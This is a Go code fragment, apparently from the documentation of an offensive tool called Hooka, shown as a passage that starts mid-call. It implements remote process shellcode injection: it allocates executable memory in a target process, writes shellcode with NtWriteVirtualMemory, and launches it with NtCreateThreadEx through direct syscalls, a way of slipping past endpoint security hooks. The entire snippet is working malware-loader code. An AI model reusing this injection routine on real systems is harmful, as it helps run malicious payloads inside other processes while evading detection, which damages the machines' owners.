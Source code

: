 ```go
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  if r1 != 0 { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtWriteVirtualMemory...")
  var bytesWritten uint32
  r2, err := hooka.Syscall(
    NtWriteVirtualMemory,
    pHandle,
    rPtr,
    uintptr(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
    uintptr(unsafe.Pointer(&bytesWritten)),
  )

  if r2 != 0 { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtCreateThreadEx...")
  var tHandle uintptr
  _, err = hooka.Syscall(
    NtCreateThreadEx,
    uintptr(unsafe.Pointer(&tHandle)),
    windows.STANDARD_RIGHTS_ALL|windows.SPECIFIC_RIGHTS_ALL,
    0,
    pHandle,
    rPtr,
    0,
    uintptr(0),
    0,
    0,
    0,
    0,
  )

  if err != nil { // Handle error
    log.Fatal(err)
  }

  fmt.Println("Calling NtClose...")
  hooka.Syscall(
    NtClose,
    uintptr(unsafe.Pointer(&tHandle)),
  )

  fmt.Println("Shellcode should have been executed!")
}
```
